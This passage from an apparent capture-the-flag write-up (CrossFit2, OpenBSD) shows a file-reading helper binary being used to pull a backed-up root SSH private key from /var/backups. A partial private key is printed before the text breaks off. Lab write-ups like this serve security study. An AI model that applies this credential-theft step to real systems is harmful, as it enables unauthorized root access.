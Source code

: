 ```
missing: ./var/cron/log
missing: ./var/log/authlog
missing: ./var/log/secure
missing: ./var/log/wtmp
missing: ./var/log/lastlog
mtree special: exit code 2

======
/etc/dhclient.conf diffs (-OLD  +NEW)
======
--- /dev/null   Thu Aug 12 01:31:07 2021
+++ /etc/dhclient.conf  Thu Mar 18 13:25:53 2021
@@ -0,0 +1 @@
+ignore domain-name, domain-name-servers, domain-search;


======
/etc/hostname.vmx0 SHA-256 checksums
======
OLD: 6e053caf1ef5e18c7ec678166fa73c3d17fd3c717193b36b80e4f374fe81a8ab
NEW: d32df3bccac7b83e88dc1c90c343109e302bc832d1eef842282084fa7ffb63ee
sendmail: cannot create temporary file /var/spool/smtpd/offline/1628728269.GYlmnaPY3G: Operation not permitted
```

But using it on a file outside of `/var` it fails.

```
crossfit2$ log /etc/passwd

* LogReader v0.1

[-] Log file not found!
```

Looking for interesting files in the `backup` directory under `/var` we can retrieve the backed up root ssh key using the naming convention of replacing `/` with `_` and adding a `.current`.

```
crossfit2$ ltrace log /var/backups/root_.ssh_id_rsa.current 

* LogReader v0.1

[*] Log size: 2610

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA8kTcUuEP05YI+m24YdS3WLOuYAhGt9SywnPrBTcmT3t0iZFccrHc
2KmIttQRLyKOdaYiemBQmno92butoK2wkL3CAHUuPEyHVAaNsGe3UdxBCFSRZNHNLyYCMh
3AWj3gYLuLniZ2l6bZOSbnifkEHjCcgy9JSGutiX+umfD11wWQyDJy2QtCHywQrKM8m1/0
5+4xCqtCgveN/FrcdrTzodAHTNoCNTgzzkKrKhcah/nLBWp1cv30z6kPKBKx/sZ5tHX0u1
69Op6JqWelCu+qZViBy/99BDVoaRFBkolcgavhAIkV9MnUrMXRsHAucpo+nA5K4j7vwWLG
TzLOzrBGA3ZDP7w2GD7KtH070CctcjXfx7fcmhPmQDBEg4chXRBDPWzGyvKr7TIEMNVtjI
Ug4kYNJEfSef2aWslSfi7syVUHkfvUjYnW6f2hHprHUvMtVBHPvWQxcRnxvyHuzaXetSNH
ROva0OpGPaqpk9IOseue7Qa1+/PKxD4j87eCdzIpAAAFkDo2gjg6NoI4AAAAB3NzaC1yc2
EAAAGBAPJE3FLhD9OWCPptuGHUt1izrmAIRrfUssJz6wU3Jk97dImRXHKx3NipiLbUES8i
jnWmInpgUJp6Pdm7raCtsJC9wgB1LjxMh1QGjbBnt1HcQQhUkWTRzS8mAjIdwFo94GC7i5
4mdpem2Tkm54n5BB4wnIMvSUhrrYl/rpnw9dcFkMgyctkLQh8sEKyjPJtf9OfuMQqrQoL3
jfxa3Ha086HQB0zaAjU4M85CqyoXGof5ywVqdXL99M+pDygSsf7GebR19LtevTqeialnpQ
rvqmVYgcv/fQQ1aGkRQZKJXIGr4QCJFfTJ1KzF0bBwLnKaPpwOSuI+78Fixk8yzs6wRgN2
Qz+8Nhg+yrR9O9AnLXI138e33JoT5kAwRIOHIV0QQz1sxsryq+0yBDDVbYyFIOJGDSRH0n
n9mlrJUn4u7MlVB5H71I2J1un9oR6ax1LzLVQRz71kMXEZ8b8h7s2l3rUjR0Tr2tDqRj2q
qZPSDrHrnu0GtfvzysQ+I/O3gncyKQAAAAMBAAEAAAGBAJ9RvXobW2cPcZQOd4SOeIwyjW
fFyYu2ql/KDzH81IrMaxTUrPEYGl25D5j72NkgZoLj4CSOFjOgU/BNxZ622jg1MdFPPjqV
MSGGtcLeUeXZbELoKj0c40wwOJ1wh0BRFK9IZkZ4kOCl7o/xD67iPV0FJsf2XsDrXtHfT5
```